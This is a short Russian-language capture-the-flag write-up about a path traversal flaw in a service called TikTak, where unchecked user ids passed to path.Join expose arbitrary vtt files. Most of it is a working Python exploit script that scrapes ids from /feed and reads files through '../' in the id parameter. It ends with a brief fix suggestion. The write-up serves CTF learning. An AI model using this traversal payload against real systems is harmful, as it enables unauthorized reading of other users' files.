 # Path traversal в TikTak

Отсутствие проверки в handleVtt и использование path.Join с пользовательским вводом приводит к чтению произовльных vtt файлов

sploit для destructive farm

```
import requests
import sys
import re


base_url = "http://" + sys.argv[1] + ":4000"

ids = re.findall(r'D:</b> (\d+)<', requests.get(base_url + '/feed').text)

for id_ in ids:
    print(id_)
    print(requests.get(base_url + "/vtt/?id=0/../" + id_).text)
```

Один из вариантов исправления - проверять, что id это число:
![](https://github.com/ArturLukianov/ADWriteups/blob/master/images/tiktak-traversal/Screenshot%20from%202020-05-09%2013-13-06.png)

